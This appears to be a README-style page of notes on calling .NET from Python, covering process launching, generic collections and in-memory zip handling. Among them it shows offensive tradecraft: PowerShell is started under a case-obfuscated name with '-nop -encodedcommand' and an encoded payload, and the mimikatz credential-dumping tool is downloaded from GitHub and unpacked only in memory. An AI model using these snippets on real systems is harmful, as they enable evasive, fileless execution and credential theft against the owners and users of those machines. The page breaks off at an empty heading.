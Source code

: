 
## If you want powershell interface you could do:
```python 

# Process start 
try:
    from System.Diagnostics import Process
    # As an option
    Process.Start('powershell.exe', '')
except Exception as e:
    traceback.print_exc(file=sys.stdout)

# More controlled invocation
p = Process()
p.StartInfo.UseShellExecute = False
p.StartInfo.RedirectStandardOutput = True
p.StartInfo.FileName = 'pOwersHell.exE'
p.StartInfo.Arguments = " -nop -encodedcommand JABzAD0ATgBlAHcALQBPAGI ..... "
p.Start()
p.WaitForExit() 
```


## Develop with  PyDLR: Casting, Typing, Lambdas, etc

```python
from System.Collections.Generic import IEnumerable, List
list = List[int]([1, 2, 3])
import clr
clr.AddReference("System.Core")
from System.Linq import Enumerable
Enumerable.Any[int](list, lambda x : x < 2)
```




## Download of file over TLS, Unzip into memory

```
zip=wc.DownloadData("https://github.com/gentilkiwi/mimikatz/releases/download/3.1.1-20180322/mimikatz_trunk.zip")
zipdata = MemoryStream(zip)

archive = ZipArchive(zipdata, ZipArchiveMode.Read)
print(archive)
<System.IO.Compression.ZipArchive object at 0x000000000000002B [System.IO.Compression.ZipArchive]>
```

## CSaw: Extensions.
- Dynamic class building with disposable interface
- Contract:

